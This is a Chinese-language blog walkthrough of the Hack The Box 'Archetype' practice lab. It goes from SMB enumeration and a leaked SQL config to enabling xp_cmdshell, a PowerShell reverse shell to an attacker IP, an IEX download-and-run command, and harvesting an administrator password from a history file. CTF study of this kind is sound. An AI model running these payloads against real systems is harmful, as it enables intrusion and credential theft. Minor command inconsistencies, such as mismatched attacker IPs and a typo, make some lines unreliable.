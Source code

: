 ```yaml
---
title: HTB-Archetype靶机思路 
tags: HTB,靶机,思路
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



## 前言

>这个是之前打过的靶机，之前也记录了一下，现在把它放在博客里，方便自己查看
>其实按照他里面的步骤一步一步来就可以了，但是中间踩了好多坑，心累，所以记录一下

## 环境准备

>操作机：Kali Linux

>首先要在 Kali 上安装 openvpn
>```
>apt-get install network-manager-openvpn
>apt-get install network-manager-openvpn-gnome
>apt-get install network-manager-pptp
>apt-get install network-manager-pptp-gnome
>apt-get install network-manager-strongswan
>apt-get install network-manager-vpnc
>apt-get install network-manager-vpnc-gnome
>```

安装openvpn之后，我们来下载.ovpn文件

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845167236.png)

使用opnvpn来访问这个文件，连上环境IP

`sudo openvpn MrHat-startingpoint.ovpn`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845353335.png)

然后试着 ping 一下目标IP `10.10.10.27`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846212044.png)

## 信息收集

环境配置好之后，目标IP也知道了，进行简单的信息收集

首先端口扫描，看看是否开放可疑端口
`sudo nmap -sC -sV 10.10.10.27`

> -sC 根据端口识别的服务,调用默认脚本
> 
> -sV 开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测 

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846553562.png)

开放端口：
- 135  msrpc        Microsoft Windows RPC 
- 139  netbios-ssn  Microsoft Windows netbios-ssn 
- 445  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 
- 1433 ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

## 漏洞利用

>445 文件共享（SMB）
>
>1433  SQL Server相关联

先看一下445端口的SMB是否允许匿名访问
`smbclient -N -L \\\\10.10.10.27\\`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847031208.png)

`backups` 目录 一般来说是备份目录
连接一下 `backups` 目录，然后 `dir` 查看一下目录下的文件

`smbclient -N -L \\\\10.10.10.27\\backups`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847147868.png)

可以看到里面有一个 `prod.dtsConfig` 文件，我们下载一下
`get prod.dtsConfig`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847259590.png)

查看一下里面的内容

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847308001.png)

它包含一个 `SQL 连接字符串` 和本地 Windows 用户 `ARCHETYPE\sql_svc`

接下来我们使用 `Impacket` 下的 `mssqlclient.py` 来连接一下这个 Sql Server

>Github下载链接：https://github.com/SecureAuthCorp/impacket

下载完成，解压出来，然后安装依赖 执行 `pip install .`  注意有个点

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847431335.png)

然后找到 examples 目录下的 `mssqlclient.py`

执行命令
`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847571370.png)

**`注意这个斜杠 文档复制出来的是 “\” 这个，但是不行 必须要 “/”这个斜杠才可以`**

成功连接 Sql Server，然后执行 sql 语句

先使用 `IS_SRVROLEMEMBER` 函数来查看当前 SQL 用户的权限是否为 sysadmin 最高权限

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847804543.png)

返回1那就说明是 sysadmin 权限

接下来我们开启 `xp_cmdshell` 来执行系统命令
```sql?linenums
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
```
开启成功

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848048509.png)

接下来执行一下系统命令 查看一下权限
`xp_cmdshell "whoami"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848113617.png)

## 权限提升

利用 powershell 反弹shell

新建一个 `shell.ps1` 文件
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
注意修改一下 `ip`，`端口`

接下来我们使用 python3 来托管文件
`sudo python3 -m http.server 80`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848857109.png)

使用 `nc` 来监听刚刚设置的端口，我设置的是 443
`sudo nc -lvnp 443`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848941236.png)

然后执行系统命令来访问下载并执行文件
`xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.14.29/shell.ps1\");"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849065273.png)

看 nc 这边的反应

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849164777.png)

反弹成功！

查看一下文件
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849401803.png)

>文件内容:
>net.exe use T: rchetypeVbackups /user:administrator MEGACORP_4dmin!!

发现是 `administrator` 账户密码

我们通过 `Impacket/examples/psexec.py` 连接一下这个 administrator 账户

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849493455.png)

## 获取Flag

Flag 在桌面

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849547580.png)







